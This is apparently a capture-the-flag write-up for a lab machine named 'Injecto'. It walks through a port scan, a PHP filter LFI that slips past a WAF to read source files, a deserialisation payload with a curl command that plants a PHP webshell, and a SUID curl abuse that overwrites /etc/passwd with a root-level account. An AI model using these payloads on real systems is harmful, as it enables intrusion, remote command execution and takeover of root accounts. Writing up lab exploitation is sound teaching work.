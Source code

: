 # Injecto

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.173
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 23:05 +08
Nmap scan report for 192.168.183.173
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

### Web Enum --> PHP LFI

Port 80 shows a simple quiz application:

<figure><img src="../../../.gitbook/assets/image (92) (1).png" alt=""><figcaption></figcaption></figure>

If we click any of the buttons, we are shown a very obvious LFI.

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Attempting to do anything with it results in being blocked by a WAF.

<figure><img src="../../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>

We can confirm that the website runs on PHP by visiting `index.php` and being shown the same page. Then, I experimented with some PHP Filter LFI exploits for the `blackdeath` page.

<figure><img src="../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

The WAF is easily bypassed as long as we include it within the `page` parameter. We can read the code of `index.php` by visiting:

{% code overflow="wrap" %}
```
http://192.168.183.173/index.php?page=php://filter/convert.base64-encode/resource=blackdeath/../../../../../var/www/html/index
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (105) (5).png" alt=""><figcaption></figcaption></figure>

Here's the PHP code:

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
                $extension = '.php';
            if(isset($_GET['page'])) {
                if(containsStr($_GET['page'], 'blackdeath') || containsStr($_GET['page'], 'coronavirus')) {
                    include $_GET['page'] . $extension;
                } else {
                    echo 'Tampering Detected!';
                }
            }
?>
```

### Source Code Review --> Deserialisation

We can read the `index.php` file of the `nginx` configuration here:

```
http://192.168.183.173/index.php?page=php://filter/convert.base64-encode/resource=blackdeath/../../../../../../usr/share/nginx/html/index
```

Here's the PHP code:

```php
<?php
            class MyClass {
            
            public $form_file = 'msgwithres.txt';
            public $msgo = '';
            
            public function Savemsgo() {
            
            $researcher_name = $_GET['name']; 
            $researcher_email = $_GET['email'];
            $respo = $_GET['comments'];
            
                $this-> msgo = "msgo: " . $researcher_name . " || Email : " . $researcher_email . " || Comment: " . $respo . "\n";
            
            }
            public function __destruct() { 
            file_put_contents(__DIR__ . '/' . $this->form_file,$this->msgo,FILE_APPEND);
            echo 'Saved! :)';
            }
            }
            $values_submit = $_GET['values_submit'] ?? '';
            $msgovalues_submit = unserialize($values_submit);
            
            $webApp = new MyClass;
            $webApp -> Savemsgo();
?>
```

This PHP runs for the service on port 8080. The vulnerability here is the fact that the website deserialises the output we generate.&#x20;

We can then submit a GET requests with this payload:

```php
O:7:"MyClass":2:{s:9:"form_file";s:8:"test.php";s:4:"msgo";s:29:"<?php+system($_GET['cmd']);?>";}
```

This would output a webshell on the machine for us to execute commands from. To submit it, we can just use this `curl` command:

```bash
$ curl "http://192.168.183.173:8080/index.php?values_submit=O:7:%22MyClass%22:2:%7Bs:9:%22form_file%22;s:8:%22test.php%22;s:4:%22msgo%22;s:29:%22%3C?php+system(\$_GET%5B'cmd'%5D);?%3E%22;%7D"
```

Then, we can verify that we have RCE:

<figure><img src="../../../.gitbook/assets/image (100) (3).png" alt=""><figcaption></figcaption></figure>

Getting reverse shell using the usual `bash` one-liner is easy:

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Curl SUID --> Overwrite /etc/passwd

I searched for SUID binaries, and found that `curl` was one of them:

```
www-data@injectocurly:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/curl
```

This means we can overwrite any file. To get a `root` shell, we can overwrite the `/etc/passwd` file. First, generate a valid hash:

```
$ openssl passwd -1 hello   
$1$wsCz0GNf$0S8e55RreE.iCJIyEr3jP.
```

Afterwards, just copy the `/etc/passwd` file and append this line:

```
hacker:$1$wsCz0GNf$0S8e55RreE.iCJIyEr3jP.:0:0::/root:/bin/sh
```

Then, host the new `passwd` file on a HTTP server and `curl` it, directing the output to `/etc/passwd`. Afterwards, `su` to the new user to get `root`:

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Rooted!

